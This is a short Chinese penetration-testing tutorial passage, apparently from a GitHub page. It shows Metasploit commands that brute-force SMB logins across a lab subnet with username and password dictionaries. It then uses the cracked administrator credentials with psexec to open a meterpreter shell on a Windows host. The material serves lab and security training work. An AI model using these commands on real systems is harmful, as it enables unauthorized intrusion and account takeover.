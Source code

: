 
#### SMB 批量爆破

```bash
use auxiliary/scanner/smb/smb_login
set threads 10
set rhosts 192.168.91.0/24
set smbdomain test  # 域名
set user_file /root/user.txt  # 指定字典地址
set pass_file /root/pass.txt  # 指定字典地址
run
```

![](img/43.png)

满长时间爆破后最终爆破到了账号密码

![](img/42.png)

#### 直接利用已知账号密码


```bash
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set RHOSTS 192.168.91.11
set smbuser administrator
set smbpass Abcd1234!@#
run
```
